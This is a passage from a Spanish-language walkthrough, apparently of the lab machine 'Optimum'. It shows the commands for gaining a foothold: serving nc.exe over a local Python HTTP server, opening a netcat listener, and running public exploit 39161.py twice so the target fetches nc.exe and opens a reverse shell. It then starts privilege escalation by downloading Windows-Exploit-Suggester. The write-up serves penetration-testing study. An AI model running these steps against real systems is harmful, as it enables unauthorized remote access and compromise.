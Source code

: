 Para que el exploit funcione debemos copiar la utilidad `nc.exe` en la carpeta `exploit`.

```bash
locate nc.exe
cp /usr/share/sqlninja/apps/nc.exe .
```

Activamos un servidor local `http` con `python` por el puerto `80`, para que el exploit pueda consultar y cargar el `nc.exe` que copiamos anteriormente.

```bash
sudo python3 -m http.server 80
```

Generamos un listener con `rlwrap` para tener mayor estabilidad en la shell que vamos a obtener.

```bash
rlwrap nc -lvnp 4564
```

Procedemos a ejecutar el exploit junto con la IP víctima y el puerto.

```bash
python 39161.py 10.10.10.8 80
```

_NOTA: El exploit se debe ejecutar dos veces, la primera para cargar el binario `nc.exe` y la segunda para entablar una reverse shell_

<p>
<img src="/assets/images/optimum/03-page.png">
</p>

## ESCALADA DE PRIVILEGIOS

Ahora que nos encontramos dentro de la máquina víctima, vamos a realizar un método mínimamente ruidoso para la explotación de vulnerabilidades con exploits públicos, por lo que vamos a hacer uso de la utilidad [Windows-Exploit-Suggester](https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py) del github de [AonCyberLabs](https://github.com/AonCyberLabs).

```bash
wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py
```
